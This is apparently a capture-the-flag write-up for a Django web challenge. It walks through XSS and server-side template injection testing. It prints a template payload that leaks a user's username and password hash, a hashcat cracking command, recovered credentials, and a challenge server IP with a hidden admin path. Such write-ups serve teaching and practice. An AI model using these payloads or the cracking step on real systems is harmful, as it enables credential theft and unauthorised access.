



## TTchart

category: web
difficulty : easy
author : winter


In this challenge you are provided with an input field that reflects what we enter on the page.
When i saw this i asuumed it was an injection, so you have to find injection attacks that can be triggered when user input is reflacted on the page  ie
1. xss
2. ssti


There we no obvious  filters the site was vulnerable to xss , but this was not useful to solve this challenge.

Classic ssti payload ``` {{7*7}} ``` returns error 500


Then i found this  >>> [here](https://lifars.com/wp-content/uploads/2021/06/Django-Templates-Server-Side-Template-Injection-v1.0.pdf)



I was clear it was django ssti. Payload

```bash


{{e.user.get_username}} : {{e.user.password}}


```




flag :  BIC{winter,bicmaster}

-----------------------------------

This leaks admin username and passowrd hash. Using hashcat , this hash is pbk2df for flask

```bash
hashcat -m 10000 hash.txt /home/ubuntu/wordlists/rockyou.txt


password: bicmaster:bichito

```

Ps: i only cracked one hash , i have i3 and 2gb ram :)

flag : BIC{bichito}

--------------------------------------

Now to find the flag we have to login as bicmaster.

There is no obvoius admin login page if you tried directory bruteforcing.

You can leak admin source code of django using the payload below


```bash




```

Looking through the source you will find a href link to admin page 

``` bash
http://3.135.209.41/bvdvfhvsdjgfvusdkgflshgdilfhgodufjgbvfkgfvidlsfgvdifkjhgvidufhvgdifxhvgbd/login/?next=/bvdvfhvsdjgfvusdkgflshgdilfhgodufjgbvfkgfvidlsfgvdifkjhgvidufhvgdifxhvgbd/

```

Login to find the flag 

flag :  




----------------------------------------

This was a good challenge , glad i got first blood.


